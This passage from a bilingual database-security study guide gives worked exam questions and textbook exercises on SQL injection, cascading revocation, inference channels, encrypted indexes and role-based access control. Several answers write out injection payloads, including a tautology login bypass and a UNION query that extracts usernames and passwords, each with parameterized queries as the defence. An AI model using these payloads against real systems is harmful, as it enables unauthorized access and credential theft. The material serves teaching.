(c) Explain, in terms of how the query is constructed, why binding <input> as a parameter instead of concatenating it defeats both (a) and (b). (5 marks)Q1.（12 分）某 Web 应用通过字符串拼接未经过滤的用户输入来构造 SELECT * FROM Products WHERE category = '<input>'。(a) 为 <input> 给出一个重言式载荷及其生成的查询。（3 分）(b) 给出一个基于 UNION 的载荷，用于从 Users 表中提取 username, password，假设攻击者已知 Products 以恰好 2 个显示列进行查询（name, description）。说明该载荷要想成功必须满足的一个结构性条件。（4 分）(c) 从查询的构造方式角度解释，为何将 <input> 作为参数绑定、而不是拼接，就能同时抵御 (a) 和 (b)。（5 分）
Answer
(a) Payload: x' OR 1=1 --. Resulting query: SELECT * FROM Products WHERE category = 'x' OR 1=1 --'. The OR 1=1 makes the WHERE clause true for every row, so the statement returns the entire Products table regardless of the real category values; -- comments out the stray trailing quote so the statement remains syntactically valid.(a) 载荷：x' OR 1=1 --。生成的查询：SELECT * FROM Products WHERE category = 'x' OR 1=1 --'。OR 1=1 使 WHERE 子句对每一行都为真，因此该语句返回整个 Products 表，而与真实的类别值无关；-- 将多余的末尾引号注释掉，使语句在语法上保持有效。
(b) Payload: x' UNION SELECT username, password FROM Users --. Resulting query: SELECT name, description FROM Products WHERE category = 'x' UNION SELECT username, password FROM Users --'. This displays Users.username and Users.password in the page positions normally occupied by name and description. The structural condition: the injected SELECT must return the same number of columns, in compatible types, as the original query — here 2 columns — or the DBMS rejects the UNION with a column-mismatch error.(b) 载荷：x' UNION SELECT username, password FROM Users --。生成的查询：SELECT name, description FROM Products WHERE category = 'x' UNION SELECT username, password FROM Users --'。这会在原本由 name 和 description 所占的页面位置上显示 Users.username 和 Users.password。结构性条件：注入的 SELECT 必须与原查询返回相同数量的列且类型兼容——此处为 2 列——否则 DBMS 会以列数不匹配的错误拒绝该 UNION。
(c) A parameterized query sends the SQL text (SELECT * FROM Products WHERE category = ?) to the database separately from the value bound to ?; the database parses the query structure once, before any user value is attached, and then treats the bound value purely as data to compare against category, never as text to be parsed as SQL syntax. Consequently, characters such as ', --, or UNION inside the bound value have no special meaning — they are matched literally against the category column and simply fail to match any real category, returning zero rows for both payloads above, rather than altering what the query does.(c) 参数化查询将 SQL 文本（SELECT * FROM Products WHERE category = ?）与绑定到 ? 的值分开发送至数据库；数据库在任何用户值附加之前即对查询结构进行一次解析，随后仅把绑定值当作要与 category 比较的数据，绝不将其解析为 SQL 语法。因此，绑定值中的 '、-- 或 UNION 等字符没有任何特殊含义——它们按字面与 category 列比较，无法匹配任何真实类别，从而对上述两个载荷都返回零行，而不会改变查询的行为。
思路：参数化查询把"查询结构"和"用户数据"分成两条通道传给数据库，用户数据永远不会被当作 SQL 语法解析。
Q2. (10 marks) Owner \(O\) grants a right to \(A\) at \(t=1\) and to \(B\) at \(t=2\) (both with grant option). \(A\) grants to \(C\) at \(t=3\). \(C\) grants to \(D\) at \(t=4\). \(B\) grants to \(C\) at \(t=6\) (redundantly). At \(t=7\), \(C\) grants to \(F\). (a) List who holds the right just before any revocation. (2 marks) (b) \(O\) revokes the right from \(A\) at \(t=10\). List who holds the right afterward and justify each loss or survival. (8 marks)Q2.（10 分）所有者 \(O\) 于 \(t=1\) 向 \(A\) 授予一项权限，并于 \(t=2\) 向 \(B\) 授予（二者均带授权选项）。\(A\) 于 \(t=3\) 向 \(C\) 授权。\(C\) 于 \(t=4\) 向 \(D\) 授权。\(B\) 于 \(t=6\) 向 \(C\) 授权（属冗余授权）。在 \(t=7\)，\(C\) 向 \(F\) 授权。(a) 列出在任何撤销之前持有该权限的人。（2 分）(b) \(O\) 于 \(t=10\) 从 \(A\) 撤销该权限。列出撤销之后仍持有该权限的人，并论证每一项失去或保留的原因。（8 分）
Answer
(a) Before revocation: \(A, B, C, D, F\) all hold the right (verified by forward propagation from \(O\) through every edge).(a) 撤销之前：\(A, B, C, D, F\) 全部持有该权限（通过从 \(O\) 沿每条边向前传播来验证）。
(b) Removing the edge \(O\to A\): \(A\) no longer holds the right (direct loss). \(C\) received the right from \(A\) at \(t=3\) — at that time, \(C\)'s only source was \(A\) (the \(B\to C\) grant comes later, at \(t=6\)) — so \(C\)'s grant-at-\(t{=}3\) is no longer traceable to \(O\) through a surviving path, and \(C\) loses the right via that edge. \(D\) received the right from \(C\) at \(t=4\), which depended on \(C\) holding it at \(t=4\); \(C\)'s only source at \(t=4\) was the (now-revoked) \(A\) chain, so \(D\) loses it too. \(F\) received the right from \(C\) at \(t=7\) — by \(t=7\), \(C\) had also received the right independently from \(B\) at \(t=6\) (and \(B\)'s own grant from \(O\) at \(t=2\) is untouched by the revocation of \(A\)), so \(C\)'s grant to \(F\) is traceable to the surviving \(O\to B\to C\) chain and \(F\) keeps the right. \(B\) itself is unaffected (it never depended on \(A\)). Final holders: \(B, C, F\) (\(C\) keeps the right itself via \(B\), even though the specific grant it used to reach \(D\) did not survive — \(D\) is still removed because \(D\)'s own grant predates \(C\)'s alternate source).(b) 删除边 \(O\to A\)：\(A\) 不再持有该权限（直接失去）。\(C\) 在 \(t=3\) 时从 \(A\) 获得该权限——当时 \(C\) 的唯一来源是 \(A\)（\(B\to C\) 的授权较晚，发生在 \(t=6\)），因此 \(C\) 在 \(t{=}3\) 作出的授权不再能通过存活路径追溯到 \(O\)，\(C\) 经由该边失去了该权限。\(D\) 在 \(t=4\) 从 \(C\) 获得该权限，而这依赖于 \(C\) 在 \(t=4\) 时持有该权限；\(C\) 在 \(t=4\) 时的唯一来源是（现已撤销的）\(A\) 链，因此 \(D\) 也失去了该权限。\(F\) 在 \(t=7\) 从 \(C\) 获得该权限——至 \(t=7\) 时，\(C\) 还曾在 \(t=6\) 从 \(B\) 独立获得该权限（而 \(B\) 在 \(t=2\) 从 \(O\) 获得的授权不受 \(A\) 撤销的影响），因此 \(C\) 授予 \(F\) 的权限可追溯到存活的 \(O\to B\to C\) 链，\(F\) 保留该权限。\(B\) 本身不受影响（它从未依赖于 \(A\)）。最终持有者：\(B, C, F\)（\(C\) 凭借 \(B\) 自身保留该权限，尽管其用来获得 \(D\) 的那条具体授权未能存活——\(D\) 仍被移除，因为 \(D\) 自己的授权早于 \(C\) 的替代来源）。
易错：C 自己是否保留权限，要看 C 当前有没有任何存活的来源；但 C 以前某一次具体的转授（给 D）是否有效，要看那一次转授发生时 C 当时的来源是否存活，两者判断的时间点不同。
Q3. (8 marks) A Clerk role may read employee names, addresses, and salaries individually, but not the Name–Salary association, which is Administrator-only. (a) Give a three-table schema that enforces this separation structurally. (3 marks) (b) An HR system later adds each employee's office extension number to the table holding salaries, where extensions are assigned in simple sequential order matching hire order. Explain why this reopens an inference channel, and fix the schema. (5 marks)Q3.（8 分）职员角色可以单独读取员工的姓名、地址和薪水，但不能读取仅限管理员访问的姓名–薪水关联。(a) 给出一个三表模式，从结构上强制实现这种分离。（3 分）(b) 之后，HR 系统在存放薪水的表中为每位员工添加办公分机号，分机号按与入职顺序相匹配的简单连续顺序分配。解释为何这会重新打开一条推理通道，并修正该模式。（5 分）
Answer
(a) Employees(Emp#, Name, Address), Salaries(S#, Salary), Emp-Salary(Emp#, S#), where Employees and Salaries are Clerk-readable and Emp-Salary is Administrator-only. Since the Clerk role cannot query the linking table, there is no way to join Name to Salary through authorized queries alone.(a) Employees(Emp#, Name, Address)、Salaries(S#, Salary)、Emp-Salary(Emp#, S#)，其中 Employees 与 Salaries 对职员可读，Emp-Salary 仅限管理员。由于职员角色无法查询连接表，因此仅凭已授权的查询，无法将 Name 与 Salary 连接起来。
(b) Office extensions are typically directly observable (e.g., from a directory or by calling the number) and, because they are assigned in hire order, are correlated with hire order — which is in turn often inferable or directly knowable per employee from other (non-sensitive) sources. A Clerk who can map "this employee's known hire order" to "this extension number" to "this row of the salary table" reconstructs the Name–Salary link the schema was built to prevent, exactly as a start-date column would (same mechanism: a non-sensitive attribute added to Salaries is externally correlated with employee identity). Fix: move the extension column to Employees instead of Salaries, so it carries no path into the salary-linking table.(b) 办公分机号通常可以直接观察到（例如从通讯录中查到，或拨打该号码得知），并且由于按入职顺序分配，它与入职顺序相关；而入职顺序又往往可以从其他（非敏感的）来源推断出来，或对每位员工而言直接可知。职员如果能把“该员工已知的入职顺序”对应到“该分机号”，再对应到“薪水表中的这一行”，就能重建出该模式原本要阻止的姓名–薪水关联，其机制与开始日期列完全相同（同样是将一个非敏感属性加入 Salaries，而该属性与员工身份在外部相关联）。修正方法：将分机号列移至 Employees 而非 Salaries，使其不再存在通往薪水关联表的路径。
Q4. (10 marks) An encrypted Employee table uses coarse indexes: I(salary) buckets are \(\le\!50{:}1,\ 51\text{–}60{:}2,\ 61\text{–}70{:}3,\ >\!70{:}4\), over rows Tom/70K, Mary/60K, John/50K, Jerry/55K.
(a) A user requests all employees with salary ≤ 55K. Which I(salary) values does the query processor request, and which rows come back from the server? (4 marks)
(b) After decryption, which of those rows does the client discard, and which remain as the final answer? (3 marks)
(c) Explain why the server could not have answered this query correctly on its own. (3 marks)Q4.（10 分）某加密的 Employee 表采用粗粒度索引：I(salary) 的分桶为 \(\le\!50{:}1,\ 51\text{–}60{:}2,\ 61\text{–}70{:}3,\ >\!70{:}4\)，数据行包括 Tom/70K、Mary/60K、John/50K、Jerry/55K。(a) 用户请求所有满足 salary ≤ 55K 的员工。查询处理器应请求哪些 I(salary) 值？哪些行会从服务器返回？（4 分）(b) 解密之后，客户端丢弃了其中哪些行？哪些行作为最终答案保留？（3 分）(c) 解释为什么服务器无法独自正确回答该查询。（3 分）
Answer
(a) \(55\le 55\) falls in bucket \(2\) (\(51\)–\(60\)); any match for "\(\le 55\)" could only live in buckets whose range reaches down to or below 55, i.e., \(I(\text{salary})\in\{1,2\}\). The server returns every row with those index values: Mary (\(I=2\), 60K), John (\(I=1\), 50K), Jerry (\(I=2\), 55K) — 3 rows (verified).(a) \(55\le 55\) 落在桶 \(2\)（\(51\)–\(60\)）中；对于“\(\le 55\)”的任何匹配，只可能位于其范围向下达到或低于 55 的桶中，即 \(I(\text{salary})\in\{1,2\}\)。服务器返回具有这些索引值的每一行：Mary（\(I=2\)，60K）、John（\(I=1\)，50K）、Jerry（\(I=2\)，55K）——共 3 行（已验证）。
(b) Decrypting: John = 50K (≤55, keep), Jerry = 55K (≤55, keep), Mary = 60K (>55, discard). Final answer: John and Jerry; 1 of the 3 returned rows is discarded.(b) 解密：John = 50K（≤55，保留），Jerry = 55K（≤55，保留），Mary = 60K（>55，丢弃）。最终答案为 John 和 Jerry；返回的 3 行中有 1 行被丢弃。
(c) The server never holds the decryption key, only the ciphertext and the coarse index value for each row; the index names a bucket (a range), not the exact value, so the server can narrow candidates to a bucket but cannot distinguish 50K from 55K within bucket 1–2, nor verify the exact boundary 55K itself — only the client, after decrypting, can apply the exact condition.(c) 服务器从不持有解密密钥，只持有每一行的密文以及粗粒度索引值；索引只指明一个桶（一个范围），而非精确的取值，因此服务器只能将候选行缩小到某个桶，而无法区分桶 1–2 内的 50K 与 55K，也无法验证边界值 55K 本身——只有客户端在解密之后才能应用精确条件。
Q5. (10 marks) Compare role-based access control (RBAC) with direct per-user GRANT statements for managing database access in an organization with many applications and frequent staff turnover. (a) Give one administrative advantage of RBAC. (3 marks) (b) Give one scenario where a fixed role (as in Microsoft SQL Server) is preferable to a user-defined role, and one where the reverse holds. (4 marks) (c) Explain why an application role is tied to a password rather than to a specific list of users. (3 marks)Q5.（10 分）在一个拥有众多应用且人员流动频繁的组织中，比较基于角色的访问控制（RBAC）与逐用户直接执行 GRANT 语句这两种管理数据库访问的方式。(a) 给出 RBAC 的一项管理优势。（3 分）(b) 给出一个固定角色（如 Microsoft SQL Server 中的）优于用户自定义角色的场景，以及一个反过来更优的场景。（4 分）(c) 解释为什么应用程序角色与口令绑定，而不是与一个特定的用户列表绑定。（3 分）
Answer
(a) When an employee changes jobs or leaves, the administrator changes their role membership (one operation) instead of individually revoking and re-granting every table/column right they had accumulated, which is especially valuable with frequent turnover and many applications each requiring its own set of rights.(a) 当员工调换工作或离职时，管理员只需更改其角色成员身份（一次操作），而无需逐一撤销并重新授予其已累积的每一项表权限和列权限。在人员流动频繁、且每个应用都需要各自一套权限的组织中，这一点尤其有价值。
(b) A fixed role is preferable for standard, universal administrative functions that are the same in every installation (e.g., db_backupoperator for whoever runs backups) — no organization needs a custom definition of "can run BACKUP statements." A user-defined role is preferable for organization-specific task groupings not anticipated by the DBMS vendor (e.g., a custom "claims-processor" role with exactly the mix of rights that job needs at this organization).(b) 对于在每次安装中都相同的标准通用管理功能（例如供负责备份者使用的 db_backupoperator），固定角色更为适合——没有哪个组织需要自定义“可执行 BACKUP 语句”的定义。对于 DBMS 厂商未曾预料到的、针对特定组织的任务分组，用户自定义角色更为适合（例如一个自定义的“claims-processor”角色，其权限组合恰好符合该组织此岗位的需要）。
(c) An application role grants rights to the application's own code path, not to whichever human is currently using it, so that the application can enforce rules beyond what any individual user's own rights would allow or restrict (e.g., limiting data changes to certain hours regardless of who is logged in); tying it to a password that the application supplies, rather than to a user list, keeps the elevated access scoped to "running through this application's logic" rather than becoming a second, parallel set of direct user grants that would need to be kept in sync with the user list.(c) 应用程序角色授予的是应用程序自身代码路径的权限，而非当前正在使用该应用程序的任何人的权限，因此应用程序能够实施超出任何个体用户自身权限所允许或限制范围的规则（例如，无论谁登录，都限制特定时段内的数据修改）；将其与应用程序所提供的口令绑定，而不是与用户列表绑定，可使提升的访问权限始终限定在“通过该应用程序的逻辑运行”之中，而不会演变为第二套需要与用户列表保持同步的平行直接用户授权。
Textbook exercises课后习题
Textbook exercises with answers: 12 questions教材习题及答案，共 12 题，点击展开
E1. (Review Question 5.1, Stallings & Brown) Define the terms database, database management system, and query language.E1.（复习题 5.1，Stallings & Brown）定义以下术语：数据库、数据库管理系统和查询语言。
Answer
A database is a structured collection of data stored for use by one or more applications, together with the relationships among the data items. A database management system (DBMS) is a suite of programs for constructing and maintaining the database and for offering ad hoc query facilities to many users; it also enforces access control. A query language provides a uniform interface to the database for users and applications: they state what data they want and the DBMS works out how to retrieve or change it. SQL is the standard query language of relational databases.数据库是为一个或多个应用程序而存储的结构化数据集合，同时包含数据项之间的关系。数据库管理系统（DBMS）是一组程序，用于构建和维护数据库，并为许多用户提供即席查询功能；它还负责执行访问控制。查询语言为用户和应用程序提供了统一的数据库接口：用户只需说明想要什么数据，DBMS 会自行决定如何检索或修改它。SQL 是关系数据库的标准查询语言。
E2. (Review Question 5.2, Stallings & Brown) What is a relational database and what are its principal ingredients?E2.（复习题 5.2，Stallings & Brown）什么是关系数据库？它的主要组成部分有哪些？
Answer
A relational database stores data as a set of tables (relations), each made of rows and columns, where related tables are linked through shared key values. The principal ingredients are:关系数据库把数据存储为一组表（关系），每张表由行和列组成，相关的表通过共享的键值相互连接。其主要组成部分如下：
- Relation (table): a set of rows with the same columns.关系（表）：具有相同列的一组行。
- Tuple (row): one record, one value for each attribute.元组（行）：一条记录，每个属性对应一个值。
- Attribute (column): a named property, with the same type in every row.属性（列）：一个有名称的性质，每一行中的类型都相同。
- Primary key: one attribute or a set of attributes whose values uniquely identify each row.主键：一个属性或一组属性，其取值能唯一标识每一行。
- Foreign key: an attribute that holds the primary key of another table and so links the two tables.外键：一个存放另一张表的主键的属性，从而把两张表联系起来。
- View: a virtual table defined by a query, which can show a user only part of the data.视图：由查询定义的虚拟表，它可以只向用户展示部分数据。
E3. (Review Question 5.3, Stallings & Brown) How many primary keys and how many foreign keys may a table have in a relational database?E3.（复习题 5.3，Stallings & Brown）关系数据库中的一张表可以有多少个主键，多少个外键？
Answer
A table has exactly one primary key, but that key may be composite, consisting of several columns taken together. A table may have any number of foreign keys, from none to many, each linking it to the primary key of some other table (or of itself). The primary key must be unique and not null in every row, while a foreign key value normally must match an existing primary key value in the referenced table.一张表恰好有一个主键，但这个主键可以是复合的，即由若干列共同组成。一张表可以有任意数量的外键，从零个到多个不等，每个外键都把这张表与其他某张表（或它自身）的主键相连。主键在每一行中都必须唯一且不能为空，而外键的值通常必须与被引用表中某个已存在的主键值相匹配。
E4. (Review Question 5.4, Stallings & Brown) Explain the general approach used in an SQL injection attack.E4.（复习题 5.4，Stallings & Brown）解释 SQL 注入攻击所使用的一般方法。
Answer
The attacker sends the application input that contains SQL syntax. The application builds its SQL query by concatenating this input into a query string, without validating it, and sends the result to the database. The database cannot tell the attacker's added text from the programmer's query, so it parses and executes the changed query. The attacker therefore chooses the logic of the query, for example to bypass a login with an always-true condition, to read other tables (UNION), or to modify or delete data. The root cause is mixing code and data in one string.攻击者提交含有 SQL 语法的应用输入。应用程序没有对输入做验证，就把它拼接到查询字符串中，再发送给数据库。数据库无法区分攻击者添加的文本和程序员写的查询，因此会解析并执行被改动后的查询。于是攻击者便控制了查询的逻辑：例如用永真条件绕过登录，读取其他表（UNION），或修改、删除数据。根源在于把代码和数据混在同一个字符串里。
E5. (Review Question 5.5, Stallings & Brown) List and briefly describe some administrative policies that can be used with an RDBMS.E5.（复习题 5.5，Stallings & Brown）列出并简要说明可以用于 RDBMS 的一些管理策略。
Answer
- Centralized administration: only a small number of privileged users may grant and revoke access rights.集中式管理：只有少数特权用户可以授予和撤销访问权限。
- Ownership-based administration: the owner (creator) of a table may grant and revoke access rights to it.基于所有者的管理：表的所有者（即创建者）可以授予和撤销该表的访问权限。
- Decentralized administration: in addition, the owner may give other users the authority to grant and revoke access rights to the table (the grant option), so rights can be passed on.分散式管理：在此基础上，所有者还可以授予其他用户授权选项（grant option），让这些用户也能授予和撤销该表的访问权限，权限因此可以继续转授。
The three differ in how much control the central administrator keeps against how easy it is for users to share data; the last one produces cascading authorizations.三者的区别在于：中央管理员保留多少控制权，以及用户共享数据有多方便。最后一种会产生级联授权。
E6. (Review Question 5.6, Stallings & Brown) Explain the concept of cascading authorizations.E6.（复习题 5.6，Stallings & Brown）解释级联授权的概念。
Answer
When a user is granted an access right with the grant option, that user can grant the right to others, who may in turn grant it further, so the right cascades through a chain of users. Revocation cascades in the same way: when a user revokes a right from another, all rights that were granted onward from it are revoked too. The exception is that a right survives if the holder also received it, in time before the onward grant, from a different grantor who still holds it. Each grant is therefore recorded with the grantor and the time, so that the DBMS can tell which rights still have a valid source.用户获得带授权选项的访问权限后，可以把这项权限再授予他人，接受者又可以继续授予，因此权限会沿着一条用户链级联传递。撤销也以同样的方式级联：当某用户撤销另一用户的权限时，从该用户向下转授出去的所有权限也都被撤销。例外情况是：如果持有者在这次向下转授之前，还从另一个授权者那里获得了同一权限，而那个授权者仍然持有该权限，那么这项权限保留。因此，每一次授权都要记录授权者和授权时间，DBMS 才能判断哪些权限仍然有有效的来源。
E7. (Review Question 5.7, Stallings & Brown) Explain the nature of the inference threat to an RDBMS.E7.（复习题 5.7，Stallings & Brown）解释推理威胁在 RDBMS 中的本质。
Answer
Inference is the process of deriving sensitive information that a user is not authorized to see from the results of queries that the user is authorized to run, possibly combined with other knowledge. The path from the authorized queries to the secret is an inference channel. Each answer alone looks harmless, but together they reveal the protected fact, for example by merging two permitted views, or by using a functional dependency between attributes. Inference is hard to detect, since it depends on outside knowledge. It is countered at design time by restructuring the database and the access rights, and at query time by detecting and refusing or altering a query that would complete a channel.推理是指：用户利用自己有权执行的查询结果，再结合其他知识，推导出自己无权查看的敏感信息。从允许的查询到得出秘密的这条路径，就是一条推理通道。每个答案单独看都无害，但合在一起就会泄露受保护的事实，例如合并两个允许访问的视图，或利用属性之间的函数依赖。推理很难被发现，因为它依赖于外部知识。防御分两个层面：设计时，通过重构数据库和访问权限来防止；查询时，检测出会补全推理通道的查询，并拒绝或改写它。
E8. (Review Question 5.8, Stallings & Brown) What are the disadvantages of database encryption?E8.（复习题 5.8，Stallings & Brown）数据库加密有哪些缺点？
Answer
- Key management: authorized users need the decryption keys, which must be distributed, stored and protected, and different keys for different parts make this harder.密钥管理：授权用户需要解密密钥，而密钥必须被分发、存储和保护。如果不同部分使用不同的密钥，管理会更加困难。
- Inflexibility: when the data is encrypted, the server cannot search or compare it directly. A range query (for example salary below a limit) is not possible, because encrypted values do not keep the order of the plaintext. Encrypting whole records and adding index values restores some searching but gives the server a little information, such as a rough ordering.灵活性差：数据加密后，服务器无法直接对其进行搜索或比较。范围查询（例如工资低于某个上限）无法执行，因为密文不保留明文的顺序。对整条记录加密并附加索引值，可以恢复一部分搜索能力，但服务器会因此获得一些信息，例如大致的排序。
- Overhead: queries need extra processing, because the client decrypts rows and discards those that do not match.开销大：查询需要额外的处理，因为客户端要先解密各行，再丢弃不匹配的行。
E9. (Review Question 5.9, Stallings & Brown) List and briefly define four data center availability tiers.E9.（复习题 5.9，Stallings & Brown）列出并简要定义数据中心可用性的四个等级。
Answer
The TIA-942 standard defines four tiers; a higher tier is more available.TIA-942 标准定义了四个等级，等级越高，可用性越高。
| Tier等级 | Design设计 | Availability可用性 |
|---|---|---|
| 1 | single path for power and cooling, no redundant components; must shut down fully for maintenance供电和制冷只有单一路径，没有冗余部件；维护时必须完全停机 | 99.671 % (about 28.8 hours down a year)99.671%（每年停机约 28.8 小时） |
| 2 | single path but with redundant components, with raised floor, UPS and generator; maintenance of the power path needs a shutdown单一路径，但部件有冗余，并配有防静电地板、UPS 和发电机；维护供电路径仍需停机 | 99.741 % (22.0 hours in the standard; the formula \((1-A)\times 8760\) gives 22.7 hours)99.741%（标准中为 22.0 小时；公式 \((1-A)\times 8760\) 得出 22.7 小时） |
| 3 | multiple power and cooling paths with only one active; planned maintenance does not interrupt operation, unplanned events still do供电和制冷有多条路径，但同一时间只有一条处于工作状态；计划维护不会中断运行，但意外事件仍会造成中断 | 99.982 % (1.6 hours)99.982%（1.6 小时） |
| 4 | multiple active paths with redundant components; survives at least one worst-case unplanned event with no loss of the critical load多条路径同时工作，部件有冗余；能承受至少一次最坏情况的意外事件，且关键负载不受影响 | 99.995 % (0.4 hours)99.995%（0.4 小时） |
E10. (Problem 5.3, Stallings & Brown) A veterinarian service uses one table with the columns P_Name, Type, Breed, DOB, Owner, O_Phone and O_E-mail. It holds these rows (pet; type; breed; owner; owner's phone; owner's e-mail): Kino, Dog, Std. Poodle, M. Downs, 5551236, md@abc.com; Teddy, Cat, Chartreaux, M. Downs, 1232343, md@abc.com; Filo, Dog, Std. Poodle, R. James, 2343454, rj@abc.com; AJ, Dog, Collie Mix, Liz Frier, 3456567, liz@abc.com; Cedro, Cat, Unknown, R. James, 7865432, rj@abc.com; Woolley, Cat, Unknown, M. Trent, 9870678, mt@abc.com; Buster, Dog, Collie, Ronny, 4565433, ron@abc.com. (a) Describe four problems that are likely to occur when using this table. (b) Break the table into two tables in a way that fixes the four problems.E10.（习题 5.3，Stallings & Brown）一家兽医服务机构用一张表记录数据，表中的列为 P_Name、Type、Breed、DOB、Owner、O_Phone 和 O_E-mail。表中的行依次为（宠物；种类；品种；主人；主人电话；主人邮箱）：Kino，Dog，Std. Poodle，M. Downs，5551236，md@abc.com；Teddy，Cat，Chartreaux，M. Downs，1232343，md@abc.com；Filo，Dog，Std. Poodle，R. James，2343454，rj@abc.com；AJ，Dog，Collie Mix，Liz Frier，3456567，liz@abc.com；Cedro，Cat，Unknown，R. James，7865432，rj@abc.com；Woolley，Cat，Unknown，M. Trent，9870678，mt@abc.com；Buster，Dog，Collie，Ronny，4565433，ron@abc.com。（a）描述使用该表时可能出现的四个问题。（b）把该表拆分为两张表，使其解决这四个问题。
Answer
(a) The table mixes facts about pets with facts about owners, so the owner data is repeated for every pet. This causes:（a）这张表把宠物的信息和主人的信息混在一起，因此主人的数据会在每只宠物的行中重复出现。这会导致：
- Redundancy: the e-mail of M. Downs (
md@abc.com) and of R. James is stored twice, and phone numbers are repeated whenever an owner has several pets.数据冗余：M. Downs 的邮箱（md@abc.com）和 R. James 的邮箱都被存储了两次；只要某个主人有多只宠物，其电话号码也会重复出现。 - Update anomaly and inconsistency: a change to an owner's data must be made in every row. The table is already inconsistent, as M. Downs has the phones 5551236 and 1232343 and R. James has 2343454 and 7865432.更新异常与数据不一致：修改某个主人的数据时，必须在每一行都进行修改。该表本身已经不一致：M. Downs 有两个电话，5551236 和 1232343；R. James 有 2343454 和 7865432。
- Insertion anomaly: a new owner cannot be recorded before the owner has a pet (the pet columns would be empty), and a pet cannot be entered without the owner's phone and e-mail.插入异常：在主人养宠物之前，无法记录这位新主人（宠物相关的列会是空的）；而且，没有主人的电话和邮箱，也无法录入宠物。
- Deletion anomaly: deleting Woolley, the only pet of M. Trent, also deletes M. Trent's phone and e-mail.删除异常：删除 Woolley 这条记录时，由于它是 M. Trent 唯一的宠物，M. Trent 的电话和邮箱也会一并被删除。
(b) Separate the owner facts from the pet facts and link them by a key:（b）把主人的信息与宠物的信息分开，并通过键把两者联系起来：
Owners(Owner, O_Phone, O_E-mail) primary key: Owner
Pets(P_Name, Type, Breed, DOB, Owner) primary key: P_Name; Owner is a foreign key to Owners
Each owner is stored once with one phone and e-mail, so there is no repetition and a change is made in a single row. A new owner can be added without a pet, and removing a pet leaves the owner. The contradictory phone numbers must be resolved when the data is moved (keep one number per owner). A name is used as the key here only for the example; a real system would use a unique owner ID.每个主人只存储一次，只有一个电话和一个邮箱，因此没有重复，修改时只需改一行。可以添加没有宠物的新主人，删除宠物也不会丢失主人信息。拆分数据时必须解决相互矛盾的电话号码（每个主人只保留一个号码）。这里用姓名作键只是为了举例；实际系统应使用唯一的主人 ID。
E11. (Problem 5.6, Stallings & Brown) A login routine reads login, password and pin from a form and builds the queryE11.（习题 5.6，Stallings & Brown）登录程序从表单中读取 login、password 和 pin，并构造查询语句
query = "SELECT accounts FROM users WHERE login='" + login +
"' AND pass='" + password + "' AND pin=" + pin;
then runs it, and displays the accounts if a result is returned, otherwise an authentication-failed page. (a) Suppose a user submits login, password and pin as doe, secret and 123. Show the SQL query that is generated. (b) Instead, the user submits for the login field ' or 1=1 -- . What is the effect?然后执行该查询。若有结果返回，就显示账户；否则显示认证失败页面。（a）假设用户把 login、password 和 pin 分别提交为 doe、secret 和 123，写出生成的 SQL 查询。（b）若用户在 login 字段中提交 ' or 1=1 --，会产生什么效果？
Answer
(a) The strings are concatenated into（a）这些字符串被拼接为：
SELECT accounts FROM users WHERE login='doe' AND pass='secret' AND pin=123
(b) With the login ' or 1=1 -- the query becomes（b）若 login 为 ' or 1=1 --，查询语句变为：
SELECT accounts FROM users WHERE login='' or 1=1 --' AND pass='...' AND pin=...
The first quote closes the login string, or 1=1 adds a condition that is always true, and -- starts a comment that hides the rest of the line, so the password and PIN tests are never evaluated. Because AND binds more tightly than OR and the other tests are commented out, the condition is true for every row and the query returns the accounts of all users. The result is not empty, so the program displays them: the attacker bypasses authentication without knowing any password and may see every account. This is a tautology attack. The defence is a parameterized query, in which the input is bound as data and never parsed as SQL.第一个引号闭合了 login 字符串；or 1=1 增加了一个恒为真的条件；-- 开始了一段注释，把该行的其余部分隐藏起来，因此密码和 PIN 的检查永远不会被执行。由于 AND 的优先级高于 OR，而其他检查又被注释掉了，这个条件对每一行都为真，查询会返回所有用户的账户。结果不为空，程序就会把它们显示出来：攻击者无需任何密码即可绕过认证，并可能看到所有账户。这就是重言式攻击。防御方法是参数化查询，即把输入作为数据绑定，而不是当作 SQL 来解析。
思路：引号闭合字符串，or 1=1 恒真，-- 注释掉后面的口令检查。
E12. (Problem 5.8, Stallings & Brown) Users A, B and C grant rights on the Employee table to X, who in turn grants rights to Y. The grants (all with the grant option) and the times at which they are made are:E12.（习题 5.8，Stallings & Brown）用户 A、B 和 C 把 Employee 表上的权限授予 X，X 又把权限授予 Y。所有授权都带有授权选项，授予时间如下：
| Grantee被授权者 | Grantor授权者 | READ | INSERT | DELETE |
|---|---|---|---|---|
| X | A | 15 | 15 | — |
| X | B | 20 | — | 20 |
| Y | X | 25 | 25 | 25 |
| X | C | 30 | — | 30 |
Later (after time 30) B issues REVOKE ALL RIGHTS ON Employee FROM X. Which access rights of Y, if any, must be revoked, using the usual convention for cascading revocation?之后（时间 30 之后），B 发出 REVOKE ALL RIGHTS ON Employee FROM X。按照级联撤销的常用约定，Y 的哪些访问权限（如果有）必须被撤销？
Answer
Convention: when a grantor revokes a right, every grant that X made onward is also revoked, unless at the time X made it X held the right from some other grantor whose grant is still valid. The test is therefore: did X hold the right, from a source other than B, at time 25 when X granted it to Y?约定：授权者撤销某项权限时，X 向下转授的每一项授权也都要撤销，除非 X 在转授时，还从另一个仍然有效的授权者那里持有该权限。因此判断标准是：在时间 25，X 把权限授予 Y 时，X 是否从 B 以外的来源持有该权限？
| Right权限 | X's sourcesX 的来源 | Held by X at time 25 from a source other than B?时间 25 时，X 是否从 B 以外的来源持有该权限？ | Y's rightY 的权限 |
|---|---|---|---|
| READ | A at 15, B at 20A 在 15，B 在 20 | yes, A (15 < 25)是，A（15 < 25） | stays保留 |
| INSERT | A at 15A 在 15 | yes, A (15 < 25)是，A（15 < 25） | stays保留 |
| DELETE | B at 20, C at 30B 在 20，C 在 30 | no: C's grant at 30 came after 25否：C 的授权在 30，晚于 25 | revoked撤销 |
Result: only Y's DELETE right is revoked. Y keeps READ and INSERT. The DELETE right of Y was supported only by B at time 25, and C's later grant does not validate an earlier onward grant. X itself loses only what came solely from B, so X keeps READ and INSERT from A and DELETE from C.结论：只撤销 Y 的 DELETE 权限，Y 保留 READ 和 INSERT。Y 的 DELETE 权限在时间 25 时只有 B 支持，而 C 之后的授权无法使更早的转授重新生效。X 自身也只失去仅来自 B 的权限，因此 X 保留来自 A 的 READ 和 INSERT，以及来自 C 的 DELETE。
思路：看 X 在 25 时刻是否还有 B 以外的来源，C 的 30 来得太晚。
Chapter 17User Authentication and Password Security用户认证与口令安全Reading: Stallings & Brown Ch. 3; Stallings (Crypto) Ch. 16
Authentication principles and factors ★★★认证原理与认证因子
